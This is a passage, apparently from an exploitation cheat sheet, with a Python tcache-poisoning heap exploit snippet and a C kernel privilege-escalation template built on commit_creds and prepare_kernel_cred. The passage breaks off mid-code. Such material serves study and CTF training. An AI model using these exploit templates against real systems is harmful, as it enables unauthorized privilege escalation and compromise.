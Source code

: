 **Tcache Poisoning (glibc >= 2.26)**:

```python
# Easier than fastbin (no size checks)
alloc(0, 0x50)
alloc(1, 0x50)

free(0)
free(1)

# Corrupt tcache fd pointer
payload = p64(target_address)
edit(1, payload)

# Allocate to get target
alloc(2, 0x50)  # Gets freed chunk 1
alloc(3, 0x50)  # Gets target_address!
```

---

## 4. Kernel Exploitation

### Kernel Vulnerability Types

1. **NULL Pointer Dereference**
2. **Use-After-Free**
3. **Race Conditions**
4. **Stack/Heap Overflows**
5. **ret2usr** (return to userspace)

### Kernel Exploit Template

```c
// exploit.c - Privilege escalation via kernel vuln
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/ioctl.h>

// Kernel offsets (version-specific)
#define PREPARE_KERNEL_CRED 0xffffffff810a1810
#define COMMIT_CREDS 0xffffffff810a1420

void *(*prepare_kernel_cred)(void *) = (void *)PREPARE_KERNEL_CRED;
int (*commit_creds)(void *) = (void *)COMMIT_CREDS;

void escalate_privs(void) {
    commit_creds(prepare_kernel_cred(0));
}

int main() {
    int fd;
    char buf[256];

    printf("[*] Opening vulnerable device\n");
    fd = open("/dev/vulnerable", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }

    printf("[*] Triggering vulnerability\n");
    // Build ROP chain or overwrite function pointer
    *(unsigned long *)&buf[0] = (unsigned long)escalate_privs;
```